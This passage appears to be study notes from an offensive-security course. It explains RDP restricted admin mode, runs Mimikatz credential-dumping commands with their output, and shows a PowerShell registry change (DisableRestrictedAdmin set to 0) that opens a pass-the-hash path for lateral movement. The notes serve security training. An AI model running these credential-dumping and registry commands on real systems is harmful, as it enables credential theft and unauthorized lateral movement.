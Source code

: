 A network login does not require clear text credentials and will not store them in memory, essentially disabling single sign-on. This type of login is commonly used by service accounts.

We can use restricted admin mode by supplying the /restrictedadmin argument to mstsc.exe. When we supply this argument, the current login session is used to authenticate the session as shown in Figure 2. Note that we do not enter a password for this transaction.

![[OffSec/OSEP/Course/z. images/68e4fd9edbb335d8e63cca345c5cfe41_MD5.jpg]]

Figure 2: RDP login with restricted admin mode

Since we are logged in as the _dave_ domain user, the network login is executed as that user. This gives us an RDP session as _dave_ on appsrv01.

If we open an administrative prompt and once again launch Mimikatz, we can attempt to dump the NTLM hash:

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
...

Authentication Id : 0 ; 2225141 (00000000:0021f3f5)
Session           : RemoteInteractive from 2
User Name         : dave
Domain            : corp1
Logon Server      : DC01
Logon Time        : 3/18/2020 3:02:47 PM
SID               : S-1-5-21-1364860144-3811088588-1134232237-2102
        msv :
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :
...
```

> Listing 2 - NTLM hash is not present for the dave user

Since we used restricted admin mode, no credentials have been cached, which helps mitigate credential theft.

Restricted admin mode is disabled by default but the setting can be controlled through the DisableRestrictedAdmin registry entry at the following path:

```
HKLM:\System\CurrentControlSet\Control\Lsa
```

> Listing 3 - Registry path for DisableRestrictedAdmin

While restricted admin mode protects against credential theft on the target, it is now possible to pass the hash when doing lateral movement with mstsc.


[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
[appsrv01]: PS C:\Users\admin\Documents> Exit